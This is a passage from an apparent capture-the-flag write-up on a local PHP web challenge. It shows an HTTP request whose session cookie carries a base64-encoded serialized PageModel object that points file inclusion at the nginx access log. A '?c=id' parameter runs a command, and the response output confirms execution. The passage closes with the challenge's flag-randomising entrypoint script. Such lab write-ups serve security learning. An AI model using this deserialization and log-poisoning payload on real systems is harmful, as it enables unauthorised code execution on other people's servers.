 ```http
Connection: close
```

Check if code execution works.
```http
GET /?c=id HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 21 Sep 2023 09:38:00 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 6245

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 
...
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "uid=1000(www) gid=1000(www) groups=1000(www)
...
```

> Yay! It does.
{: .prompt-info }

When analysing the source of the target we also recognise that the flag file is randomised.
```bash
$ cat entrypoint.sh 
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```
